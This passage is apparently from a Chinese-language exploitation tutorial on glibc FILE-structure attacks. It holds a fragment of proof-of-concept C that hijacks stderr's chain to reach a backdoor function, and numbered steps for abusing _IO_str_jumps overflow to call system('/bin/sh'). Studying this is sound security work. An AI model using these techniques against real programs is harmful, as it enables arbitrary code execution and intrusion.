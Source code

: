 ```C
    io->_IO_write_ptr = 1;
    io->_IO_write_base = 0;
    v[3] = (size_t)&backdoor;

    *(size_t*)(((char*)io) + sizeof(struct _IO_FILE)) = v;

    stderr->_chain = io;

    exit(-1);
    return 0;
}
```

## glibc-2.24 下的 IO_FILE

### _IO_strfile结构体

```C
typedef void *(*_IO_alloc_type) (_IO_size_t);
typedef void (*_IO_free_type) (void*);

struct _IO_streambuf
{
  struct _IO_FILE _f;               // 0xD8
  const struct _IO_jump_t *vtable;  // *0xA8
};

struct _IO_str_fields
{
  _IO_alloc_type _allocate_buffer;
  _IO_free_type _free_buffer;
};

typedef struct _IO_strfile_
{
    struct _IO_streambuf _sbf;      // 0xE0
    struct _IO_str_fields _s;       // 0x10
} _IO_strfile;
```

### _IO_str_jumps -> overflow的利用

将`vtable`设置成`_IO_str_jumps`(`const struct _IO_jump_t _IO_str_jumps = {...};`), 然后利用`_IO_str_overflow` 会调用 `(char *)(*((_IO_strfile *)fp)->_s._allocate_buffer)(new_size);`来获取`sh`

__利用思路:__

1. 伪造`fake_IO_FILE`
2. `fake_IO_FILE->_flags = 0`
3. `fake_IO_FILE->_IO_write_ptr = (/bin/sh - 100) / 2 + 1`
4. `fake_IO_FILE->_IO_buf_base = fake_IO_FILE->_IO_write_base = 0`
5. `fake_IO_FILE->_IO_buf_end = (/bin/sh - 100) / 2`
6. `fake_IO_FILE->_mode = 0`
7. `fake_IO_FILE + 0xD8 = &_IO_str_jumps`(将`vtable`设置成`_IO_str_jumps`)
8. `fake_IO_FILE + 0xE0 = &system`
9. 将`fake_IO_FILE`放入`_chain`中
